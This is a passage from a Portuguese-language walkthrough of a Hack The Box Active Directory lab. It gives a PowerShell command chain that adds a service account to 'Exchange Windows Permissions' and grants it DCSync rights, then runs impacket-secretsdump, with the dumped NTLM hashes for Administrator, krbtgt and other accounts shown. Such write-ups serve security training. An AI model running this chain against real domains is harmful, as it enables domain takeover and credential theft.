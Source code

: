 Verificamos que o usuário foi inserido com sucesso.

- `net group "Exchange Windows Permissions"`
    
    ```powershell
    Members
    
    -------------------------------------------------------------------------------
    svc-alfresco             
    The command completed successfully.
    ```
    

Porém, após um tempo o usuário é apagado do grupo.

Então, faremos um comando só que adicionará o usuário ao grupo e depois concederá privilégios DCSync.

```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; 
$username = "htb\svc-alfresco"; 
$password = "s3rvice"; 
$secstr = New-Object -TypeName System.Security.SecureString; 
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; 
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; 
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Agora, estamos no grupo `Exchange Windows Permissions`  e podemos executar um ataque DCSync com o `mimikatz` ou `secretdump`. Usaremos o segundo.

- `impacket-secretsdump [svc-alfresco:s3rvice@10.10.10.161](mailto:svc-alfresco:s3rvice@10.10.10.161)`
    
    ```powershell
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::